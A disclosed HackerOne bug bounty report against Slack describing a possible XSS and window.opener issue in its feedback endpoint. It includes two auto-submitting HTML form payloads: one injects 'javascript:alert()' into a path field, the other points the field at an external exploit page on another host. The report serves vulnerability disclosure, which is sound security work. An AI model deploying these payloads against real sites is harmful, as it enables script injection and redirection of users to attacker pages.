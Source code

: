 # XSS on link and window.opener 

## Report Details
- **Report ID**: 834071
- **URL**: https://hackerone.com/reports/834071
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-03-29T20:20:59.395Z
- **Disclosed**: 2023-01-23T14:44:05.340Z

## Reporter
- **Username**: pisarenko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
Hi possible xss and error when clicking on the link .

`<form name="pisarenko" action="https://api.slack.com/feedback/submit" method="POST">
<input type='hidden' name='crumb' value="1"> 
<input type='hidden' name='path' value="javascript:alert()"> 
<input type='hidden' name='vote' value="Yes"> 
</form>
<script>document.pisarenko.submit();</script>`

or 

`<form name="pisarenko" action="https://api.slack.com/feedback/submit" method="POST">
<input type='hidden' name='crumb' value="1"> 
<input type='hidden' name='path' value="https://servisvk.com/exploit/opener.php"> 
<input type='hidden' name='vote' value="Yes"> 
</form>
<script>document.pisarenko.submit();</script>`

## Impact

Redirection from the original site to an evil site or execution of js code

Please check that the domain is `slack`

{F765317}

## Attachments
- 2.html
- 1.html
- 2020-03-29_at_23-20-26.mp4
